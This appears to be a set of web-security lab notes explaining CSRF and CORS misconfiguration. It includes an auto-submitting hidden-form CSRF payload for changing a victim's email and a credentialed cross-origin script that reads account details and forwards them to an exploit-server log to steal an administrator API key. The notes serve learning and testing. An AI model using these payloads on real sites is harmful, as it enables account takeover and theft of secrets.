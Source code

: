 `GET /change-email?email=example@example.com HTTP/2`

This can be crafted onto a URL that is sent to the victim, which, when clicked, changes its email.

### CSRF Lab 1

Simply send the following to the body of the /exploit url inside the lab

```
<form method="$method" action="$url">
    <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
        document.forms[0].submit();
</script>

```
Change $method to to POST.

Change $action to the my-account/change-email

Change $param1name to email

Change $param1value to an email value.

Deliver the exploit.

### Cors

CORS is a defense mechanism that prevents websites from attacking each other.

It basically says: Any website with this given origin can talk to me, any other can't.

It does that by comparing headers, Origin and Access-Control-Allow-Origin. If they match, then the request is sent.

You can't use credentials if the origin is a wildcard.

For Access-Control-Allow-Credentials to be true, the Access-Contol-Allow-Origin needs to to not be a wildcard, that is, it needs to be a domain or a group of domains. You can't have *.domain.com as Origin.

Sometimes developers go the easy way out and code that any request's to their server will be allowed, by simply reflecting the Origin header's value into Access-Control-Allow-Origin.

### CORS LAB 1

In this case, the origin header is reflected in the server and credentials are allowed.
We craft a CORS requests like this:

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','$url/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>

```
replacing the $url with our unique id lab. We store, deliver exploit to victim and click see exploit. We notice the api key of the administrator account is in there, and that is the key to solve the lab.
